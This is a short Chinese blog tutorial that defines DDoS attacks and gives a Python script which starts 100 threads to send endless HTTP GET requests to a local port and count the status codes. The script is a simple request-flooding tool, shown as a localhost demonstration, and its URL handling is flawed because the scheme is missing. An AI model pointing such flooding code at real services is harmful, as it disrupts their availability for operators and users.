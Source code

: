 ```yaml
---
title: 简单的dos
date: 2021-09-19 13:44:17
tags: [多线程请求,python]
categories: [后端,python]
---
```


# DDos介绍

## 定义

分布式拒绝服务（Distributed Denial of Service）攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动dos攻击，从而成倍地提高拒绝服务攻击的威力。通常该攻击方式利用目标系统网络服务功能缺陷或者直接消耗其系统资源，使得该目标系统无法提供正常的服务。


# 使用python模拟点对点的攻击

## 思路：

利用多线程的无限循环发起请求，统计结果以及抛出502错误

1. 创建类继承多线程
2. 使用init封装url
3. run方法传入url，以及错误处理
4. 统计数据和主方法启动

## 测试代码：

```python
# -*- coding = utf-8 -*-
# @Time : 2021/9/19 13:45
# @Author : FSAN
# @File : sendHttpRequest.py
# @Software : PyCharm


from threading import Thread
from requests import get

status = {"200": 0, "404": 0, "500": 0}


class sendHtpp(Thread):
    def __init__(self, HOST, PORT):
        global status
        self.url = f"{HOST}:{PORT}"
        super().__init__()

    def run(self) -> None:
        while True:
            sendHtpp.START(self.url)

    def START(url):
        try:
            resp = get(url).status_code
            status[str(resp)] += 1
            print(status)
        except:
            pass


if __name__ == '__main__':
    for i in range(100):
        s = sendHtpp("127.0.0.1", 81)
        s.start()
    s.join()
```

